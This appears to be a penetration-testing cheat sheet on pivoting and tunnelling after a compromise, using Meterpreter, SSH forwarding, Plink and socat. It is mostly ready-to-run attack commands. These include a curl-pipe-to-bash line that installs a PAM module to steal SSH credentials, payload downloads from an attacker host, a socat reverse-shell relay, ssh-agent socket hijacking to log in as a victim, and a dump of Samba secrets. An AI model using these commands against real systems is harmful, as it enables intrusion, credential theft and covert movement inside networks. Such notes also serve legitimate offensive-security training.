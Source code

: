 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
    * `meterpreter> portfwd list` - check port forwarding list
    * in linux host, run `nmap <local_port>`

# Manual tactics
#### Port Forwarding - SSH
* `ssh -4 -L 8000:127.0.0.1:3306 sysadmin@demo.ine.local` - forward target port _3306_ to attackers local port _8000_
    *  `-4` - use IPv4 only
*  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
    *  existing access on _172.16.0.5_
    *  forwards target's (_172.16.0.10) HTTP traffic through existing access _172.16.0.5_
    *  accessible on _localhost:8000_ as attacker machine
    *  `-f` - backgrounds the shell immediately
    *  `-N` don't execute commands, only set up connection

#### Proxies - SSH
* `ssh -D 1337 user@172.16.0.5 -fN`
    * combined with `proxychains`
 
#### Reverse connections
1. generate new ssh keys: `ssh-keygen`
2. copy content of _.pub_ file and paste it on attacker's machine in `~/.ssh/authorized_keys`
3. copy `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of `~/.ssh/authorized_keys`
4. copy attacker's private ssh key on target's system
5. `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN` - connect from the victim back to attacker with a reverse port forward

#### Reverse proxy - SSH
1. same step as above except 5.
2. `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`- from the victim

## Tools
### Plink
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
1. transport `plink.exe` to victim
2. move public key in `~/.ssh/authorized_keys`
3. convert the generated _keyfile_
    *  `sudo apt install putty-tools`
    *  `puttygen KEYFILE -o OUTPUT_KEY.ppk`
4. `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

### Socat
* set up encrypted traffic
* bypassing AV might require custom compilation
* https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat - Linux static binaries
* https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download - Windows static binaries
1. copy binary to target: `curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat-USERNAME`
#### Reverse shell relay
2. attacking box: `sudo nc -lvnp 443`
3. compromised server: `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
#### Port forwarding
__Easy__

2. compromised server: `./socat tcp-l:33060,fork,reuseaddr tcp:<target-IP>:3306 &`
    * port _33060_ on victim is redirected to _target-IP_ port _3306_

__Quiet__

2. attacking machine: `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
3. compromised server: `./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
4. target accessible back on attacking machine on _localhost:8000_

> [!IMPORTANT]
> * when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
> * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding

